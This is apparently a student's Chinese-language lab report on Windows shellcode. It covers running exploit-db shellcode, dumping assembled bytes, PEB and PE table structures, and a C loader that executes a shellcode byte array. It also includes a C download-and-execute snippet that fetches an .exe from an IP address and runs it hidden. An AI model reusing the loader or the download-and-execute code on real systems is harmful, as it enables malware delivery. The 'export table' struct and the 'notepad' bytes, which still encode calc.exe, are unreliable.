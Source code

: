 # 第一次实验

## 实验环境

* visual studio 2010(win10)
* Kali

## 实验要求
 
  + [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中的shellcode成功运行
  + [x] 汇编源码编译通过并成功dump
  + [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
  + [x] 修改shellcode功能为记事本程序notepad.exe
  + [ ] （可选）修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

## 实验过程
****
### step1 在vs里成功运行原shellcode中的.c文件
* 运行结果展示

![结果展示](images/calc.jpg)

****

### step2 汇编源码编译通过并成功dump
* 在自己虚拟机（Kali）中编译汇编源码：
  
    `sudo vim source.asm`

    将链接中的编译源码导入后执行以下代码即可得到code[]
    
    `nasm -f win32 source.asm -o source.o`

    `for i in $(objdump -D source.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
* 运行结果展示

![运行结果](images/source_asm.png)

****

### step3 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理

* windows PEB结构体数据结构
```C++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```
* PE导入表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* PE导出表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* 参照[博客](https://www.freebuf.com/articles/system/93983.html)逐步学习了解shellcode原理




****

### step4 修改shellcode功能为记事本程序notepad.exe
**1-->修改编译源码相应位置，在Linux虚拟机中运行**
* kali中修改编译源码的位置
  
![修改代码](images/change.png)

* 修改后执行结果展示

![运行结果](images/hello_asm.png)

**2-->修改原.c文件code[]数组，并成功运行**
  
  * 由1得到code[],进而在vs中修改后的.c文件
```C++
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    func = int( code);
    (int)(*func)();
}
```
* 运行结果展示
  
![运行结果](images/notepad.jpg)


### step5 修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

* C语言实现方式
```C++
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
int main()
{
HMODULE hurlmod=LoadLibrary("urlmon.dll");
MY_DOWNLOAD_PROC function_ptr=
(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod,"URLDownloadToFileA");
function_ptr(NULL, "http://10.196.7.115/ov.exe", "a.exe", NULL, NULL);
WinExec("a.exe", SW_HIDE);
return 0;
} 
```
#### 汇编源码编写思路

*（编码实现难度有点大，函数调用和传参方面存在问题，在这先写一下自己读相关[ 博客 ](https://zhidao.baidu.com/question/1735310477657776627.html)后整理的实现思路~）*

**step1.动态获得`kernel32.dll`地址**
  
利用PEB结构来获得kerner32.dll的地址，具体通过寄存器指向TEB结构；在TEB+0x30地方指向PEB结构；在PEB+0x0C地方指向PEB_LDR_DATA结构，在PEB_LDR_DATA+0x1C地方是一些动态连接库的地址，第二个就是kernel32.dll地址。


  **step2.获取`GetProcAddress`函数的地址**
  
GetProcAddress函数是从系统文件kernel32.dll中导出的，kernel32.dll导出表中有GetProcAddress函数的地址。

  **step3.获取`LoadLibrary`的地址并查询相关函数地址**
  
通过构造查找到LoadLibrary地址，并调用LoadLibrary来加载`urlmon.dll`，进而查找动态库urlmon.dll内置函数`URLDownLoadToFileA`的地址。同样可以通过GetProcAddress获取`WinExec()`及`ExitProcess()`地址。

  **step4.向各类函数传递参数，实现调用**